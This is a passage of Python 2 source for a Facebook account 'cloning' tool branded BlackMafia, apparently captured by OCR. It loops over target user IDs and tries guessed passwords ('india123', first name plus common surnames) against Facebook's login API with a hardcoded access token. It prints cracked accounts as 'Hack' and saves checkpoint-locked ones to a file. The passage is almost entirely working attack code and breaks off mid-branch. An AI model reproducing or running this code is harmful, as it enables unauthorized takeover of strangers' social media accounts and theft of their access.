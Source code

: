 	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m┬л-----\x1b[1;93mтЩбTo Stop Process Press CTRL+ZтЩб\033[1;94m----┬╗"
	print "\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд\033[1;96mBlackMafia\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд"
	jalan(' \033[1;93m .......................Cloning Start plzzz Wait....................... ')
	print "\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд\033[1;96mBlackMafia\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:b4_baloch
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('india123')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = (j['first_name']+'gupta')
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = (j['first_name']+'ansari')